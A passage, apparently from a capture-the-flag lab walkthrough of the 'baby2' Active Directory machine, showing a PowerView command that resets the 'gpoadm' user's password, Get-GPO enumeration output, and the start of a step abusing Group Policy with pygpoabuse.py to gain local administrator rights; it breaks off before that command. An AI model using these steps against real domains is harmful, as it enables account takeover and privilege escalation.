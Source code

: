 - This converts `'Password123!'` into a format PowerShell can use securely.
    

Then, you attempted to reset the password:

```bash
Set-DomainUserPassword -Identity "gpoadm" -AccountPassword $UserPassword -Verbose
```


    
- Corrected, it successfully **resets the password for `gpoadm`**.

After resetting the password for **gpoadm** and logging in, you enumerated the available Group Policy Objects:
```bash
PS C:\temp> Get-GPO -All
Get-GPO -All


DisplayName      : Default Domain Policy
DomainName       : baby2.vl
Owner            : BABY2\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 8/22/2023 10:37:41 AM
ModificationTime : 8/22/2023 1:22:12 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 30, SysVol Version: 30
WmiFilter        : 

DisplayName      : Default Domain Controllers Policy
DomainName       : baby2.vl
Owner            : BABY2\Domain Admins
Id               : 6ac1786c-016f-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 8/22/2023 10:37:41 AM
ModificationTime : 8/22/2023 1:51:56 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 2, SysVol Version: 2
WmiFilter        : 

```
# Step — Abusing GPO to add `gpoadm` to Local Administrators

You ran `pygpoabuse.py` to push a malicious GPO that adds the `gpoadm` account to the local Administrators group on target machines. Here’s a clear walkthrough of what you executed, what it did, and the immediate follow-ups.

---

## Command you ran

